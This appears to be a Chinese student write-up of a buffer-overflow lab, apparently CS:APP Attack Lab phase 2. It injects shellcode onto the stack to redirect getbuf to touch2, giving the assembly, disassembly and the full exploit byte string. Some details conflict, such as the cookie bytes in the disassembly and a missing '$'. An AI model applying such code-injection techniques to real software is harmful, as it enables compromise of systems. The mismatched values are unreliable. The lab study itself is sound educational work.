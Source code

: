 任务是使得getbuf函数返回到touch2,并且需要传入cookie参数。需要插入一些指令到所构造的字符串。

实现思路是:

* 1.使得getbuf函数返回时返回到栈上的所注入的指令。
* 2.执行将cookies写入寄存器,使用ret而不是jmp,call来跳转到touch2函数,因为间接跳转需要额外的计算。

#### 漏洞利用步骤：

**a.构造漏洞利用字节序列**

从反汇编找到touch2的函数地址为:`0x4017ec`。需要写入的指令为：

```
movq $0x59b997fa, %rdi # 将cookie存入寄存器,我的为0x59b997fa。       
pushq   0x4017ec # pushq就不会影响到其他栈帧。
ret     # 需要返回到touch2 
```

~~过程的参数传递可以参考书上的3.7.3节~~

* 这里用GCC作为汇编器，OBJDUMP反汇编出机器指令。

`tmp.s`文件中写入上面的指令。然后汇编与反汇编：

```bash
gcc -c tmp.s
objdump -d tmp.o >tmp.d
```

得到tmp.d文件:

```
tmp.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 69 59    mov    $0x596997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq

```

然后用gdb动态调试，找到getbuf函数返回前,输入完成后的栈顶位置（这里为`0x5561dc78`）,插入指令代码,不需要额外计算。

构造，只影响当前栈帧。影响到其他栈帧可能会崩,之前影响到父栈帧就崩了:

```
48 c7 c7 fa 97 b9 59        /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00              /* pushq  $0x4017ec        */
c3                          /* retq                    */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00     /* 一共48字节,最后这8字节为函数返回地址的地方   */
```
